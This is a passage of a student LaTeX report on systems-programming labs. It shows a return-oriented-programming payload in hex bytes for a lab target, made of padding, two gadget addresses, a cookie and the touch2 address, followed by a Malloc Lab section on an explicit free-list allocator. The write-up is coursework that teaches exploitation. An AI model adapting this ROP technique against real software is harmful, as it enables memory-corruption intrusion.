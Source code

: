 \documentclass[11pt]{report}
\begin{document}
With that information collected we can construct the payload:
\begin{lstlisting}
00 00 00 00 00 00 00 00 /* padding start */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* padding end */
8B 29 40 00 00 00 00 00 /* gadget 1 */
88 7a 22 43 00 00 00 00 /* cookie */
75 29 40 00 00 00 00 00 /* gadget 2 */
7c 27 40 00 00 00 00 00 /* touch2 address */ 
\end{lstlisting}
It starts with the padding, then the first gadget, which will be executed first. Then the cookie, which will be popped to \textit{\%rax}. Then the second gadget, which will move the value to \textit{\%rdi}. And finally the address of the \textit{touch2} method, which will be executed after the gadget.\\[1ex]

\chapter{Malloc Lab}
\section{A}
The function \textit{mm\_malloc}, see appendix \ref{appendix:malloc_lab_code_mm_malloc}, takes a size $x$, finds or creates a spot for it on the heap and places, removing it from the available blocks. My implementation of malloclab uses and explict free list, which is essentially just a linked list between all the free blocks of memory.

A 8 word block of memory is allocated as 10 words, where 2 are used for the header and footer, figure \ref{fig:malloc_lab_a} illustrates such a free block.
\begin{figure}[h]
    \centering
    \caption{Free block}
    \label{fig:malloc_lab_a}
\end{figure}
The header and footer of a block are identical and contain the size of the block and a bit indicating allocation state. The next and prev pointers are used to link to the next and previous blocks in the free list.\\[1ex]
\end{document}
